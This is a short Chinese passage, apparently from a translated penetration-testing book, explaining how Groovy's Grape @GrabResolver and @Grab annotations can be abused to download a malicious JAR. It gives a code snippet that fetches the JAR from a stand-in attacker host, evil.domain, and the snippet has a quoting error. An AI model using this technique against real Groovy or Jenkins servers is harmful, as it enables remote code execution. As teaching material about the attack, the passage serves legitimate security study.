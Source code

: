 ![](img/8565ff3b-f819-47b5-b6d8-d965c29162f5.png)

因此，`@Grab`将从所述存储库导入依赖项并将其添加到代码中。现在，一个问题出现了：“如果存储库不在 Maven 上怎么办？”在我们的情况下，因为它在 shellcode 中，Grape 将允许我们指定 URL，如下面的屏幕截图所示：

![](img/8f39306c-6f4b-4973-9df3-cd971a0d1da7.png)

在这里，以下代码将从[`evil.domain/evil/jar/org.restlet/1/org.restlet-1.jar`](http://evil.domain/evil/jar/org.restlet/1/org.restlet-1.jar)下载 JAR 文件：

```
@GrabResolver(name='restlet', root='http://evil.domain/')
@Grab(group='evil.jar, module='org.restlet', version='1')
import org.restlet
```

现在我们已经从服务器下载了恶意的 JAR 文件，下一个任务是执行它。为此，我们需要深入研究 Groovy 核心的源代码，这是 Grape 实现的地方（[`github.com/groovy/groovy-core/blob/master/src/main/groovy/grape/GrapeIvy.groovy`](https://github.com/groovy/groovy-core/blob/master/src/main/groovy/grape/GrapeIvy.groovy)）。
